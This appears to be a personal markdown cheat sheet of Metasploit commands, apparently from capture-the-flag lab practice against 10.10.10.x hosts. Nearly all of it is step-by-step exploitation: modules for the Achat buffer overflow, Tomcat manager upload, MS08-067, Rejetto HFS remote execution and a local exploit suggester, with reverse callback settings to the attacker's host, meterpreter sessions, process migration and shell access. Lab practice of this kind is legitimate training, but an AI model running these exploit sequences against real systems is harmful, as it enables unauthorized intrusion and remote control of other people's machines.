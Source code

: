 # --> The random commands I collected


## Get box with msfconsole

search achat

use explot/windows/misc/achat_bof

show options  

set RHOST 10.10.10.74  

set LHOST tun0  

set LPORT 9001

run

---
<br/>


## Simple Exploit

```
msfconsole
use multi/http/tomcat_mgr_upload
exploit
```


## Exploit and Open msfconsole

```
--> I used msfconsole for this one since I couldn't get shellcode to work, here is a high level of my commands:
search ms08_067_netapi  
show options  
set RHOST --> this is the remote host to attack
set LHOST --> this is your host for the call back
check --> this acutally checks to see if rhost is vulnerable
run
--metaterperater will load--
shell --> to open command shell
```


## MetaSploit Module Commands:

```
msfconsole

search rejetto

use exploit/windows/http/rejetto_hfs_exec

show options

set Proxies http:127.0.0.1:8080

set RHOST 10.10.10.8

set SRVHOST 10.10.14.31

set SRVPORT 8088

set ReverseAllProxy true

run

meterpreter sysinfo

migrate 1788 --> Process number

set payload
```

## Msploit exploit suggester

search suggester
use post/multi/recon/local_exploit_suggester
set SESSION 1
run